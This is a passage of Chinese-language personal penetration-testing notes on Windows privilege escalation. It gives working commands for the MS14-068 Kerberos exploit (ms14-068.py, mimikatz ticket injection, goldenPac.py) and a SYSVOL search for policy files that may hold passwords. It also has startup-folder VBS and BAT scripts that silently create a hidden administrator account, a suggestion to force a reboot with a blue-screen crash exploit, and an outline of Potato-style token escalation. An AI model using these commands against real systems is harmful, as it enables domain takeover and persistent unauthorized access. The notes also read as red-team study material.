    ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
   `python  ms14-068.py -u <userName>@<domainName> -s <userSid> -d  <domainControlerAddr>`
   `mimikatz.exe  "kerberos::ptc TGT_user@domain.ccache" exit`
3. `ms14068 + psexec`  ==> `goldenPac.py domain.com/username:password@dc.domain.com`

------

提权模块蓝军的文章到这里就结束了，但是觉得太少，翻一翻先知的文章，自己补充了一些。[文章来源](https://xz.aliyun.com/t/7573)

------

### 溢出提权

根据补丁信息提权。这个视情况而定，通常使用到的有辅助提权网站
[辅助提权连接](https://bugs.hacking8.com/tiquan/)

### 启动项提权

- 启动项路径 `C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

- 创建脚本

  ```shell
  vbs：
    set wshshell=createobject("wscript.shell")
    a=wshshell.run("cmd.exe /c net user 用户名 密码  /add",0)
    b=wshshell.run("cmd.exe /c net localgroup administrators 用户名 /add",0)
  bat：
    net user 用户名 密码 /add
    net localgroup administrators 用户名 /add
  ```

- 接下来需要等待机器重启并以较大权限的账号登录，暴力一点可以配合漏洞打蓝屏poc强制重启
- bat会弹dos，vbs不会

~~这个是从文章中直接复制的，但是总感觉这个方式比较被动，可行性不高的样子，不过也算是一种方法~~

### Potato系列提权

> 土豆，没有看内网之前就有听过一些，烂土豆等等。感觉这个摊开也是一个很大的土豆饼啊！先给出参考的文章，我暂时先不挖这么深了...不然支线太多，主线看不完。更：20200714看到安全师上的一篇[文章](https://www.secshi.com/40957.html)挺好，这里做个汇总
> 20200804：发现自己对这一块的理解可能稍微有点混乱，添加新的整理和理解

还是根据这篇[先知文章](https://xz.aliyun.com/t/7776#toc-1)，好好摸索一遍！
在获取到主机权限后，执行 `whoami /priv` 查看当前用户的权限，当拥有 `SeImpersonatePrivilege` 和 `SeAssignPrimaryTokenPrivilege` ，而通常情况下，只有高权限用户，如System用户才有后者的权限，所以根据文章中，列出拥有前者权限的 Windows 账号用户

- 本地管理员账户（不包括管理员组普通用户）和**本地服务账户**
- 由SCM启动的服务

所以这就是为啥提权好用的原因吧，因为初步获取的权限一般都是IIS这种服务权限

**SCM是啥**
碰到自己的盲区了，稍微歪个楼自省一下(总觉得好像看过了，可能是我忘记了)。SCM是Service Control Manager的缩写，即服务控制管理器，微软官方的[文档](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager)，其实也不细，留个印象
